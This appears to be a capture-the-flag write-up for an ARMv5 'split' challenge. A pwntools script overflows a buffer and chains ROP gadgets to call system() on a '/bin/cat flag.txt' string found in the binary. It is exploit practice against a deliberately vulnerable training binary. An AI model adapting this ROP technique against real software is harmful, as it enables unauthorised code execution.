



theres a function that execute system() in the binary



there also exist a "/bin/cat flag.txt" in the bss

with that, we the solution is obviously to hijack system and run the "cat flag" command

```
#!/usr/bin/python3
from pwn import *

context.os="linux"
context.log_level="debug"

context.binary=exe=ELF("./split_armv5")

# p=process(["qemu-arm","-L", "/usr/arm-linux-gnueabihf","-g","1234","./split_armv5"])
p=process(["qemu-arm","./split_armv5"])

buffer=0x24*b"A"
system=0x000105e0
mov_r0r3_pop_fppc=0x00010558
pop_r3pc=0x000103a4
cat_flag=next(exe.search("/bin/cat flag.txt"))

payload=flat(
    buffer,
    pop_r3pc,
    cat_flag,
    mov_r0r3_pop_fppc,
    0,
    system
)

p.recvuntil("> ")
p.send(payload)

p.interactive()
```